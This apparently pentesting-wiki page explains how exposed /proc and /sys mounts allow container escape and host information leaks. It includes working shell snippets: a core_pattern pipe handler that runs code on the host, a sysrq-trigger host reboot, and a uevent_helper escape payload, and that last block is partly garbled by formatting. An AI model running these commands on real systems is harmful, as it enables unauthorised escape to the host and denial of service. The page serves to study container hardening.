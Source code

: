 # Sensitive Mounts

{{#include ../../../../banners/hacktricks-training.md}}

The exposure of `/proc` and `/sys` without proper namespace isolation introduces significant security risks, including attack surface enlargement and information disclosure. These directories contain sensitive files that, if misconfigured or accessed by an unauthorized user, can lead to container escape, host modification, or provide information aiding further attacks. For instance, incorrectly mounting `-v /proc:/host/proc` can bypass AppArmor protection due to its path-based nature, leaving `/host/proc` unprotected.

**You can find further details of each potential vuln in** [**https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts**](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)**.**

## procfs Vulnerabilities

### `/proc/sys`

This directory permits access to modify kernel variables, usually via `sysctl(2)`, and contains several subdirectories of concern:

#### **`/proc/sys/kernel/core_pattern`**

- Described in [core(5)](https://man7.org/linux/man-pages/man5/core.5.html).
- Allows defining a program to execute on core-file generation with the first 128 bytes as arguments. This can lead to code execution if the file begins with a pipe `|`.
- **Testing and Exploitation Example**:

  ```bash
  [ -w /proc/sys/kernel/core_pattern ] && echo Yes # Test write access
  cd /proc/sys/kernel
  echo "|$overlay/shell.sh" > core_pattern # Set custom handler
  sleep 5 && ./crash & # Trigger handler
  ```

#### **`/proc/sys/kernel/modprobe`**

- Detailed in [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).
- Contains the path to the kernel module loader, invoked for loading kernel modules.
- **Checking Access Example**:

  ```bash
  ls -l $(cat /proc/sys/kernel/modprobe) # Check access to modprobe
  ```

#### **`/proc/sys/vm/panic_on_oom`**

- Referenced in [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).
- A global flag that controls whether the kernel panics or invokes the OOM killer when an OOM condition occurs.

#### **`/proc/sys/fs`**

- As per [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html), contains options and information about the file system.
- Write access can enable various denial-of-service attacks against the host.

#### **`/proc/sys/fs/binfmt_misc`**

- Allows registering interpreters for non-native binary formats based on their magic number.
- Can lead to privilege escalation or root shell access if `/proc/sys/fs/binfmt_misc/register` is writable.
- Relevant exploit and explanation:
  - [Poor man's rootkit via binfmt_misc](https://github.com/toffan/binfmt_misc)
  - In-depth tutorial: [Video link](https://www.youtube.com/watch?v=WBC7hhgMvQQ)

### Others in `/proc`

#### **`/proc/config.gz`**

- May reveal the kernel configuration if `CONFIG_IKCONFIG_PROC` is enabled.
- Useful for attackers to identify vulnerabilities in the running kernel.

#### **`/proc/sysrq-trigger`**

- Allows invoking Sysrq commands, potentially causing immediate system reboots or other critical actions.
- **Rebooting Host Example**:

  ```bash
  echo b > /proc/sysrq-trigger # Reboots the host
  ```

#### **`/proc/kmsg`**

- Exposes kernel ring buffer messages.
- Can aid in kernel exploits, address leaks, and provide sensitive system information.

#### **`/proc/kallsyms`**

- Lists kernel exported symbols and their addresses.
- Essential for kernel exploit development, especially for overcoming KASLR.
- Address information is restricted with `kptr_restrict` set to `1` or `2`.
- Details in [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).

#### **`/proc/[pid]/mem`**

- Interfaces with the kernel memory device `/dev/mem`.
- Historically vulnerable to privilege escalation attacks.
- More on [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).

#### **`/proc/kcore`**

- Represents the system's physical memory in ELF core format.
- Reading can leak host system and other containers' memory contents.
- Large file size can lead to reading issues or software crashes.
- Detailed usage in [Dumping /proc/kcore in 2019](https://schlafwandler.github.io/posts/dumping-/proc/kcore/).

#### **`/proc/kmem`**

- Alternate interface for `/dev/kmem`, representing kernel virtual memory.
- Allows reading and writing, hence direct modification of kernel memory.

#### **`/proc/mem`**

- Alternate interface for `/dev/mem`, representing physical memory.
- Allows reading and writing, modification of all memory requires resolving virtual to physical addresses.

#### **`/proc/sched_debug`**

- Returns process scheduling information, bypassing PID namespace protections.
- Exposes process names, IDs, and cgroup identifiers.

#### **`/proc/[pid]/mountinfo`**

- Provides information about mount points in the process's mount namespace.
- Exposes the location of the container `rootfs` or image.

### `/sys` Vulnerabilities

#### **`/sys/kernel/uevent_helper`**

- Used for handling kernel device `uevents`.
- Writing to `/sys/kernel/uevent_helper` can execute arbitrary scripts upon `uevent` triggers.
- **Example for Exploitation**: %%%bash

  #### Creates a payload

  echo "#!/bin/sh" > /evil-helper echo "ps > /output" >> /evil-helper chmod +x /evil-helper

  #### Finds host path from OverlayFS mount for container

  host*path=$(sed -n 's/.*\perdir=(\[^,]\_).\*/\1/p' /etc/mtab)

  #### Sets uevent_helper to malicious helper

  echo "$host_path/evil-helper" > /sys/kernel/uevent_helper

  #### Triggers a uevent

  echo change > /sys/class/mem/null/uevent

  #### Reads the output

  cat /output %%%

#### **`/sys/class/thermal`**

- Controls temperature settings, potentially causing DoS attacks or physical damage.

#### **`/sys/kernel/vmcoreinfo`**

- Leaks kernel addresses, potentially compromising KASLR.

#### **`/sys/kernel/security`**

- Houses `securityfs` interface, allowing configuration of Linux Security Modules like AppArmor.
- Access might enable a container to disable its MAC system.

#### **`/sys/firmware/efi/vars` and `/sys/firmware/efi/efivars`**

- Exposes interfaces for interacting with EFI variables in NVRAM.
- Misconfiguration or exploitation can lead to bricked laptops or unbootable host machines.

#### **`/sys/kernel/debug`**

- `debugfs` offers a "no rules" debugging interface to the kernel.
- History of security issues due to its unrestricted nature.

### References

- [https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)
- [Understanding and Hardening Linux Containers](https://research.nccgroup.com/wp-content/uploads/2020/07/ncc_group_understanding_hardening_linux_containers-1-1.pdf)
- [Abusing Privileged and Unprivileged Linux Containers](https://www.nccgroup.com/globalassets/our-research/us/whitepapers/2016/june/container_whitepaper.pdf)

{{#include ../../../../banners/hacktricks-training.md}}


